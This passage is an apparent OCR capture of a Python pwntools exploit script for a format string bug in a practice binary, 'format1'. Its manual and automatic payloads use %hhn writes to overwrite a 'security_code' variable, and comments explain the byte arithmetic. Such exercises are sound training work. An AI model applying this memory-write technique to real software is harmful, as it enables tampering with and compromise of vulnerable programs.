 ```python
        r = gdb.debug([elf.path], gdbscript=dbginit)
    else:
        r = process([elf.path])
    return r



def manual_payload():
    # address of security code
    # or you can use 'nm format1 | grep "security_code"' command to get the address
    #dest = 0x404050
    dest = elf.sym["security_code"]
    #val  = 0x64657461

    # 4 bytes -- xxxxxxxx    index                                (0x00 written)
    payload  = b'%93c----'   # 14   93  = 0x61 - 0x00 - 4         (0x61 written)
    payload += b'%21$hhn-'   # 15   write 0x61 on index 21        (0x62 written)
    payload += b'%14c----'   # 16   14  = 0x74 - 0x62 - 4         (0x74 written) 
    payload += b'%22$hhn-'   # 17   write 0x74 on index 22        (0x75 written)
    payload += b'%236c---'   # 18   236 = 0x64 + 0x100 - 0x75 - 3 (0x164 written)(overflow)
    payload += b'%24$hhn-'   # 19   write 0x64 on index 24        (0x165 written)(overflow)
    payload += b'%23$hhn-'   # 20   write 0x65 on index 23        (done)
    payload += p64(dest)     # 21
    payload += p64(dest + 1) # 22
    payload += p64(dest + 2) # 23
    payload += p64(dest + 3) # 24

    return payload



def auto_payload():
    # address of security code
    # or you can use 'nm format1 | grep "security_code"' command to get the address
    #dest = 0x404050
    dest = elf.sym["security_code"]
    val  = 0x64657461

    write = {
            dest : val
            }
    
    # adjust the write size if it is not working (byte, short, int)
    payload = fmtstr_payload(14, write, write_size="byte")

    return payload



def main():
    r = conn()

    #payload = auto_payload()
    payload = manual_payload()

    # send the payload
    r.sendline(payload)

    # large payload, gonna take some time
    # adjust sleep time if needed
    log.progress("Sending...")
    sleep(1)

```